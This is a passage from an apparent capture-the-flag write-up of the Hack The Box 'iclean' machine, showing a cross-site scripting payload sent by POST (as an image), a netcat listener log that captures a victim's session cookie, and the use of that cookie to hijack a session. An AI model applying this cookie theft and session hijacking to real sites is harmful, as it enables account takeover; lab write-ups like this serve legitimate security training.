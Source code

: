 Repeating the POST request after adding the payload, and URL-encoding it, looks like this:

<img src="/assets/img/2024/iclean/icleanXSSpayload.png" alt="icleanXSSpayload.png" class="auto-resize">

Starting a listener captures the cookie as expected:

```bash
┌──(emdeh㉿kali)-[~/Documents/htb-machines/iclean/credentials]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.129.10.21] 56354
GET /session=eyJyb2xlIjoiMj<SNIP>.0qvcHllPTlaUvubvwVzl77I1glM HTTP/1.1
Host: 10.10.14.6:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:3000
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

## Session hijacking with stolen cookie

The cookie can be used to impersonate a session. By inspecting the login page, the cookie can be added to storage. Then, attempting to browse to the `/dashboard` page, which would typically sit behind the login page, can be done by simply changing the URL.
